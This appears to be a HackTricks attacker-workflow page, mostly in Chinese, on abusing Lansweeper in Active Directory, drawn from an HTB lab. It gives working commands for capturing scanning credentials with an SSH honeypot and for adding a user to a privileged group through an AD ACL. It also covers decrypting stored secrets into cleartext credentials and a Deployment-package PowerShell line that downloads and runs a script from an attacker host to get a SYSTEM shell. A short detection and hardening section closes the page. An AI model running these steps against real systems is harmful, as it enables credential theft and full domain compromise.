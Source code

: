# Lansweeper Abuse: Credential Harvesting, Secrets Decryption, and Deployment RCE

{{#include ../../banners/hacktricks-training.md}}

Lansweeper 是一个常见于 Windows 环境并与 Active Directory 集成的 IT 资产发现与清单平台。配置在 Lansweeper 中的凭证被其扫描引擎用于通过 SSH、SMB/WMI 和 WinRM 等协议对资产进行身份验证。错误配置常导致：

- 通过将扫描目标重定向到攻击者控制的主机（honeypot）被拦截凭证
- 滥用由 Lansweeper 相关组暴露的 AD ACLs 以获得远程访问
- 在宿主上解密 Lansweeper 配置的 secrets（连接字符串和存储的扫描凭证）
- 通过 Deployment 功能在被管理端点上执行代码（通常以 SYSTEM 运行）

本页总结了在实战中滥用这些行为的实用攻击者工作流和命令。

## 1) Harvest scanning credentials via honeypot (SSH example)

思路：创建一个指向你主机的 Scanning Target，并将已有的 Scanning Credentials 映射到该目标。当扫描运行时，Lansweeper 会尝试使用这些凭证进行认证，你的 honeypot 将捕获这些尝试凭证。

步骤概览（web UI）：
- Scanning → Scanning Targets → Add Scanning Target
- Type: IP Range (or Single IP) = your VPN IP
- Configure SSH port to something reachable (e.g., 2022 if 22 is blocked)
- Disable schedule and plan to trigger manually
- Scanning → Scanning Credentials → ensure Linux/SSH creds exist; map them to the new target (enable all as needed)
- Click “Scan now” on the target
- Run an SSH honeypot and retrieve the attempted username/password

Example with sshesame:
```yaml
# sshesame.conf
server:
listen_address: 10.10.14.79:2022
```

```bash
# Install and run
sudo apt install -y sshesame
sshesame --config sshesame.conf
# Expect client banner similar to RebexSSH and cleartext creds
# authentication for user "svc_inventory_lnx" with password "<password>" accepted
# connection with client version "SSH-2.0-RebexSSH_5.0.x" established
```
针对 DC 服务验证捕获的凭据：
```bash
# SMB/LDAP/WinRM checks (NetExec)
netexec smb   inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec ldap  inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
注意事项
- 当你能将扫描器诱导到你的监听器时，对其他协议的做法类似（SMB/WinRM honeypots 等）。SSH 通常是最简单的。
- 许多扫描器会用明显的客户端横幅标识自己（例如 RebexSSH），并且会尝试一些无害命令（uname、whoami 等）。

## 2) AD ACL abuse: 通过将自己添加到应用管理员组来获取远程访问权限

使用 BloodHound 从被攻陷的账户枚举有效权限。常见发现是某个针对扫描器或应用的组（例如 “Lansweeper Discovery”）对一个特权组（例如 “Lansweeper Admins”）拥有 GenericAll。如果该特权组也是 “Remote Management Users” 的成员，一旦我们将自己添加进去，WinRM 就会可用。

收集示例：
```bash
# NetExec collection with LDAP
netexec ldap inventory.sweep.vl -u svc_inventory_lnx -p '<password>' --bloodhound -c All --dns-server <DC_IP>

# RustHound-CE collection (zip for BH CE import)
rusthound-ce --domain sweep.vl -u svc_inventory_lnx -p '<password>' -c All --zip
```
使用 BloodyAD (Linux) 在组上利用 GenericAll：
```bash
# Add our user into the target group
bloodyAD --host inventory.sweep.vl -d sweep.vl -u svc_inventory_lnx -p '<password>' \
add groupMember "Lansweeper Admins" svc_inventory_lnx

# Confirm WinRM access if the group grants it
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
然后获取一个 interactive shell:
```bash
evil-winrm -i inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```
提示：Kerberos 操作对时间敏感。如果触发 KRB_AP_ERR_SKEW，先与 DC 同步：
```bash
sudo ntpdate <dc-fqdn-or-ip>   # or rdate -n <dc-ip>
```
## 3) 在主机上解密 Lansweeper 配置的 secret

在 Lansweeper 服务器上，ASP.NET 站点通常会存储一个加密的连接字符串和应用程序使用的对称密钥。获得合适的本地访问权限后，你可以解密数据库连接字符串，然后提取存储的扫描凭据。

典型位置：
- Web 配置：`C:\Program Files (x86)\Lansweeper\Website\web.config`
- `<connectionStrings configProtectionProvider="DataProtectionConfigurationProvider">` … `<EncryptedData>…`
- 应用程序密钥：`C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`

使用 SharpLansweeperDecrypt 来自动化解密并导出存储的凭据：
```powershell
# From a WinRM session or interactive shell on the Lansweeper host
# PowerShell variant
Upload-File .\LansweeperDecrypt.ps1 C:\ProgramData\LansweeperDecrypt.ps1   # depending on your shell
powershell -ExecutionPolicy Bypass -File C:\ProgramData\LansweeperDecrypt.ps1
# Tool will:
#  - Decrypt connectionStrings from web.config
#  - Connect to Lansweeper DB
#  - Decrypt stored scanning credentials and print them in cleartext
```
预期输出包括 DB 连接详情以及明文扫描凭据，例如在整个资产中使用的 Windows 和 Linux 账户。这些账户通常在域主机上具有提升的本地权限：
```text
Inventory Windows  SWEEP\svc_inventory_win  <StrongPassword!>
Inventory Linux    svc_inventory_lnx        <StrongPassword!>
```
使用恢复的 Windows scanning creds 获取特权访问：
```bash
netexec winrm inventory.sweep.vl -u svc_inventory_win -p '<StrongPassword!>'
# Typically local admin on the Lansweeper-managed host; often Administrators on DCs/servers
```
## 4) Lansweeper 部署 → SYSTEM RCE

作为“Lansweeper Admins”的成员，web UI 会显示 Deployment 和 Configuration。在 Deployment → Deployment packages 下，你可以创建会在目标资产上运行任意命令的包。执行由 Lansweeper 服务以高权限执行，从而在所选主机上获得以 NT AUTHORITY\SYSTEM 身份运行的代码执行。

高层步骤：
- 创建一个新的 Deployment package，运行 PowerShell 或 cmd 的一行命令（reverse shell、add-user 等）。
- 选择目标资产（例如运行 Lansweeper 的 DC/主机），然后点击 Deploy/Run now。
- 以 SYSTEM 权限接收你的 shell。

Example payloads (PowerShell):
```powershell
# Simple test
powershell -nop -w hidden -c "whoami > C:\Windows\Temp\ls_whoami.txt"

# Reverse shell example (adapt to your listener)
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker>/rs.ps1')"
```
OPSEC
- 部署操作会产生噪音并在 Lansweeper 和 Windows 事件日志中留下日志。谨慎使用。

## 检测与加固

- 限制或移除匿名 SMB 枚举。监控 RID cycling 和对 Lansweeper 共享的异常访问。
- 出站控制：阻止或严格限制扫描器主机的出站 SSH/SMB/WinRM。对非标准端口（例如 2022）和像 Rebex 这样的异常客户端 banner 发出告警。
- 保护 `Website\\web.config` 和 `Key\\Encryption.txt`。将 secrets 外置到 vault 并在暴露时进行轮换。考虑使用最小权限的服务账户和在可行时使用 gMSA。
- AD 监控：对与 Lansweeper 相关的组（例如 “Lansweeper Admins”、“Remote Management Users”）的更改触发告警，以及对授予特权组 GenericAll/Write 成员资格的 ACL 更改触发告警。
- 审计 Deployment 包的创建/更改/执行；对生成 cmd.exe/powershell.exe 或发起异常出站连接的包发出告警。

## 相关主题
- SMB/LSA/SAMR 枚举和 RID cycling
- Kerberos 密码喷洒以及时钟偏差的相关注意事项
- 使用 BloodHound 对 application-admin 组进行路径分析
- WinRM 使用与横向移动

## References
- [HTB: Sweep — Abusing Lansweeper Scanning, AD ACLs, and Secrets to Own a DC (0xdf)](https://0xdf.gitlab.io/2025/08/14/htb-sweep.html)
- [sshesame (SSH honeypot)](https://github.com/jaksi/sshesame)
- [SharpLansweeperDecrypt](https://github.com/Yeeb1/SharpLansweeperDecrypt)
- [BloodyAD](https://github.com/CravateRouge/bloodyAD)
- [BloodHound CE](https://github.com/SpecterOps/BloodHound)

{{#include ../../banners/hacktricks-training.md}}
